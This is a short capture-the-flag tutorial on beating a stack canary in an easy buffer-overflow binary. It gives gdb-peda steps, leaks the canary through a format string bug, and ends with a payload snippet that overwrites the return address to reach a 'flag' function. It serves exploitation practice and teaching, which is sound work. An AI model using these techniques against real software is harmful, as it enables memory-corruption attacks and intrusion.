 # Easy Canary Buffer Overflow 
_Just some tips to remeber how to resolve easy buffer overflows_

## Tips 📝
**1.  Check the typical "win" or "flag" function on the binary with gdb (it's recommended to have [PEDA](https://github.com/longld/peda) installed to see registers and the program instructions in a prettier way).**

To open the binary with gdb:
```
gdb binary
```
To see the differents functions on the binary: 
```
gdb-peda$ info functions
```
![Functions Addresses](images/functions.png)


**2. Get "flag" function memory address**: 
```
gdb-peda$ info functions flag 
```

![Function Address](images/function_address.png)


**3. Finding the canary to prepare the payload**:

First we should puts a breakpoint on the "vulnerable" method (for example gets or fgets)

```
gdb-peda$ disas main
```
![Gets address](images/gets_address.png)

```
gdb-peda$ b *0x000000000040093b ("gets" memory address)
```

Run the binary with gdb until reaching the breakpoint

```
gdb-peda$ run
```
Execute the next instruction of the program (it will call the "gets" where we have put the breakpoint and ask for an input, in this case we are going to write some 'A'):
```
gdb-peda$ ni
AAAAAAAAAAAAA
```
Then we have to look at the rsp register to see where our input has been stored ('A' in ASCII is 41): 
```
gdb-peda$ x/20gx $rsp
```
![RSP values](images/rsp_values.png)

If we look closer we can see the value "0x6f54534ae2410d00", this "strange" value which is different from the others on the stack is the canary (8 bytes, the length of the word, that changes in every program execution), so we have to do the buffer overflow writing the exact same value on this position. 

As the canary changes in each execution we have to print it with a format string vulnerability in order to add it to the payload (in the "canary" binary we can make a format string vulnerability in the line "printf(strcat(name, "!\n"));"). To print it we should use some %p to see in which position the canary is printed, in this case is the position 17 (it is recommended to see some format strings [videos](https://www.youtube.com/watch?v=0WvrSfcdq1I)):

![RSP values](images/format_string.png)

Now, we have the canary value which will be added to our payload. The next step is to overwrite the return address of the function in order to redirect the program to the "flag" function and get our flag. 


**4. Getting the return address of the function**

To get the return address of the function we have to put a breakpoint on the "ret" instruction:
```
gdb-peda$ breakpoint *0x400956
```
When the execution reachs the breakpoint we have to see the first position of the stack where is the returing address of the program is: 
```
gdb-peda$ x/gx $rsp
```
![RSP values](images/return_address.png)

Finally to expltoit the second "gets" with the bufferoverflow we check how many bytes we have to write until the canary and then until the return address where we will put the flag return address obtained on the first step of this guide:

![RSP values](images/to_overwrite.png)

So the payload will be: 56 chars until reach the canary, the canary obtained, 8 chars more and the flag function address (If you got a segfault in the movaps XMMWORD PTR [rsp+0x40],xmm0 instruction you have to align the stack jumping to other ret instruction and then set the target address as you can see in the solution.py script)

```
payload = 'A'*56
payload += p64(int(canary, 16))
payload += 'A'*8
payload += p64(MAIN_RET)
payload += p64(FLAG_ADDRESS)
```


